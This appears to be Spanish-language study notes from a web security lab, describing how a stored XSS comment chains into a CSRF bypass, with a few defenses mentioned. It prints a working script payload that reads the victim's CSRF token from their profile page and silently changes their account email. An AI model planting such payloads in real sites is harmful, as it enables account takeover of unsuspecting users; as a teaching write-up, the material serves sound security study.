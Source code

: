 Esta lección continúa el ataque iniciado previamente, donde explotamos una vulnerabilidad de XSS almacenado para comprometer la protección CSRF de la aplicación.

En este caso, consolidamos la explotación automatizando todo el flujo: cuando una víctima visualiza el comentario malicioso, su navegador realiza una petición a su propia página de perfil, extrae el token CSRF del formulario oculto, y lo reutiliza inmediatamente para enviar una petición de cambio de correo electrónico sin que el usuario lo sepa.

Este enfoque permite realizar una acción sensible —como modificar información de cuenta— sin interacción directa por parte de la víctima, utilizando su sesión activa y su token legítimo.

La clase demuestra cómo XSS y CSRF pueden combinarse para romper la lógica de seguridad de muchas aplicaciones, y por qué es crucial implementar defensas adicionales como el uso de encabezados personalizados, políticas de contenido restrictivas (CSP), y el aislamiento del contenido generado por el usuario del contexto de ejecución del frontend.

Solucion seguimos con el codigo
![Pasted_image_20250717181112.png](Imagenes/Pasted_image_20250717181112.png)
<script>
  var req = new XMLHttpRequest(); 
  req.open("GET", "/my-account", false); 
  req.send();
  var response = req.responseText;
  var csrf_token = response.match(/name="csrf" value="(.*?)"/)[1];
  var req2 = new XMLHttpRequest();
  req2.open('POST', '/my-account/change-email', true);
  req2.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  var data = "email=" + encodeURIComponent("pwned@pwned.com") + "&csrf=" + encodeURIComponent(csrf_token); 
  req2.send(data);
</script>

y lo ideal seria ponerlo en la seccion de comentarios
![Pasted_image_20250717181635.png](Imagenes/Pasted_image_20250717181635.png)
